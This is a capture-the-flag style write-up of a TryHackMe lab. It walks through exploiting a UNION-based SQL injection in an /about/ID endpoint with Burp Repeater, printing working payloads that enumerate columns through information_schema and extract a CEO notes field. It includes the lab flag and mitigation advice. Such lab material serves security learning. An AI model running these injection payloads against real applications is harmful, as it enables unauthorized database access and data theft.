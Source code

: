 # Burp Repeater — UNION-based SQLi (TryHackMe Lab)

**Date:** 2025-09-25
  
**Platform:** TryHackMe (lab)

## Objective
Identify and exploit a **Union SQL Injection** vulnerability in the `ID` parameter of the `/about/ID` endpoint. Retrieve the CEO's notes stored in the database.

## Target
- URL / endpoint: `http://10.10.89.50/about/ID`
- Vulnerable parameter: `ID`

## Tools
- Burp Suite Repeater
- Browser

## Steps Taken

1. **Capture the request**
   - Opened `http://10.10.89.50/about/2` in the browser while Burp Proxy was running.  
   - Right-clicked the captured request and selected **Send to Repeater**.

2. **Confirm vulnerability**
   - Edited the request path in Repeater: `/about/2'` (added single apostrophe).  
   - Sent the request.  
   - Server responded with **500 Internal Server Error**, confirming a SQLi vulnerability.  

3. **Analyze error response**
   - Around line 40 of the response body, the server echoed back the attempted query.  
   - Useful information:  
     - Table: `people`  
     - Columns selected: `firstName`, `lastName`, `pfpLink`, `role`, `bio`  

4. **Enumerate columns**
   - Created a UNION query to select column names from `information_schema.columns`:
     ```
     /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people"
     ```
   - Changed the ID to `0` (invalid) to avoid returning original rows.  
   - Successfully retrieved the first column name.

5. **Amalgamate all column names**
   - Used `group_concat()` to get all column names in one output:
     ```
     /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name="people"
     ```
   - Result: `id, firstName, lastName, pfpLink, role, shortRole, bio, notes`

6. **Extract target data**
   - Table: `people`  
   - Target column: `notes`  
   - CEO ID: `1`  
   - Payload to retrieve CEO notes (flag):
     ```
     /about/0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id=1
     ```

7. **Flag**
THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}


## Screenshots
![Request captured](../screenshots/repeater-01.png) — request captured in Repeater  
![500 error response](../screenshots/repeater-02.png) — 500 error response with query  
![Column names output](../screenshots/repeater-03.png) — group_concat() output showing column names  
![Final flag output](../screenshots/repeater-04.png) — final query output with flag

## Recommendations / Mitigation
- Use **parameterized queries / prepared statements** to prevent SQLi.  
- Implement strict **input validation**.  
- Limit database **error information exposure** to avoid leaking internal query info. 